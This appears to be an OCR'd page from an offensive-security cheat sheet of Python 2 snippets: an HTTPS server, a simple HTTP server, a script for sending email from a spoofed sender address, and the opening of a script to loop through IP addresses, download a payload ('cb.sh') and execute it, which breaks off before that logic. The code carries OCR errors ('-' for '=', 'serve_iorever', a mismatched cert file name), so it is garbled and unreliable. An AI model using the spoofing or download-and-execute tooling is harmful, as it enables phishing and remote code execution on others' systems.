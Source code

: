 # Create SSL cert (follow prompts for customization)
openssl req -new -x509 -keyout cert.pem -out cert.pem -days 365 -nodes

# Create httpserver.py
import BaseHTTPServer,SimpleHTTPServer,ssl

cert = "cert_pem"

httpd = BaseHTTPServer.HTTPServer(('192.168.1.10',443), 
SimpleHTTPServer.SimpleHTTPRequestHandler)
httpd.socket = ssl.wrap_socket(httpd.socket,certfile=cert,server_side=True)
httpd.serve_iorever()


PYTHON HTTP SERVER

python -m SimpleHTTPServer 8080


PYTHON EMAIL SENDER (* SENDMAIL MUST BE INSTALLED)

#!/usr/bin/python
import smtplib, string 
import os, time

os.system("/etc/init.d/sendmail start") 
time.sleep(4)

HOST - "localhost"
SUBJECT - "Email from spoofed sender"
TO = "target@you.com"
FROM = "spoof@spoof.com"
TEXT = "Message Body"
BODY = string.join((
    "From: %s" % FROM,
    "To: %s" % TO,
    "Subject: %s" % SUBJECT ,
    "" ,
    TEXT
    ), "\r\n")
server - smtplib.SMTP(HOST)
server.sendmail(FROM, [TO], BODY)
server.quit()

time.sleep(4)
os.system("/etc/init.d/sendmail stop")


LOOP THROUGH IP LIST, DOWNLOAD FILE OVER HTTP AND EXECUTE

#!/usr/bin/python 
import urllib2, os

urls	["1.1.1.1","2.2.2.2"]
port - "80"
payload = "cb.sh"
